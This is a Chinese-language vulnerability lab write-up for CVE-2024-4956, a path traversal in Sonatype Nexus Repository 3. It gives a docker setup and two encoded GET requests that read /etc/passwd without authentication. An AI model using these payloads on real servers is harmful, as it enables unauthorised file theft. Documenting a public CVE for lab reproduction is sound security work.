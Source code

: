 # Sonatype Nexus Repository 路径遍历漏洞（CVE-2024-4956）

Sonatype Nexus Repository 3（通常简称为Nexus3）是一个由Sonatype开发的仓库管理工具，用于管理和托管各种软件构件（如Maven构件、Docker镜像等），它提供了一种集中化的方式来存储、管理和分发软件构件，以帮助团队协作和构建自动化。
	Nexus Repository 3 中发现了一个路径遍历漏洞。该漏洞允许攻击者制作一个 URL，以下载任何文件，包括 Nexus Repository 应用程序范围之外的系统文件，而无需任何身份验证

**影响版本**：<=nexus3:3.68.0

**参考链接**：

- https://support.sonatype.com/hc/en-us/articles/29416509323923
- https://ethicalhacking.uk/cve-2024-4956-path-traversal-vulnerability-in-sonatype-nexus-repository-3/

## 漏洞环境

执行如下命令启动一个nexus3:3.68.0-web：

```
docker run -p 8081:8081 --name nexus sonatype/nexus3:3.68.0-java8
```

![1.1](./1.png)

## 漏洞复现

```
GET /%2F%2F%2F%2F%2F%2F%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2Fetc%2Fpasswd HTTP/1.1
Host: 192.168.76.128:8081
```

```
GET /%2F%2F%2F..%2F%2F.%2F%2F..%2F%2F..%2F..%2F..%2F..%2Fetc%2Fpasswd HTTP/1.1
Host: 192.168.76.128:8081
```

![image-20240907113758215](./2.png)

